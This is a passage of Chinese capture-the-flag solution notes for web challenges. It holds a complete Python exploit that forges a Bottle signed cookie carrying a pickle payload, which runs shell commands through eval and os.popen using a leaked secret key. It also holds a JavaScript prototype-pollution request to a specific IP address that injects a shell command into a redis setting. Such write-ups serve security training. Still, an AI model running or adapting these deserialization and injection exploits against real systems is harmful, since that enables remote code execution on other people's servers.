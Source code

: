 		  
		  if __name__ == "__main__":
		      os.chdir(os.path.dirname(__file__))
		      run(host="0.0.0.0", port=8080)
		  
		  ```
	- `/app/config/secret.py`
		- ```python
		  key = "Th1sIIIIIIsAAAsecret"
		  ```
	- 读bottle签名cookie的代码
		- ```python
		  def cookie_encode(data, key):
		      ''' Encode and sign a pickle-able object. Return a (byte) string '''
		      msg = base64.b64encode(pickle.dumps(data, -1))
		      sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
		      return tob('!') + sig + tob('?') + msg
		  ```
	- 伪造cookie并提交
		- ```python
		  import pickle
		  import base64
		  import hmac
		  import hashlib
		  import requests
		  
		  url = "xxx"
		  
		  cmd = "__import__('os').popen('{}').read()".format("echo 114514; sleep 5;")
		   
		  class payload(object):
		      def __reduce__(self):
		         return (eval, (cmd,))
		  
		  def tob(s: str):
		      return s.encode("utf-8")
		  
		  def cookie_encode(data, key):
		      ''' Encode and sign a pickle-able object. Return a (byte) string '''
		      msg = base64.b64encode(pickle.dumps(data, -1))
		      sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
		      return tob('!') + sig + tob('?') + msg
		  
		  
		  key = "Th1sIIIIIIsAAAsecret"
		  
		  cookie = cookie_encode(('user', payload()), key).decode()
		  
		  print(cookie)
		  
		  r = requests.get(f"{url}/login", cookies = {
		      "user": cookie
		  })
		  print(r.text)
		  print(r.cookies)
		  ```
- # JUST_PROTO
	- JS原型链污染
	- ```python
	  url = "http://39.107.82.142:5519"
	  r = requests.get(f"{url}/set", params = {
	      "token": "__proto__",
	      "key": "redis_set",
	      "val": "sleep 5;#"
	  })
	  r = requests.put(f"{url}/bkup")
	  print(r.text)
	  ```
- # pop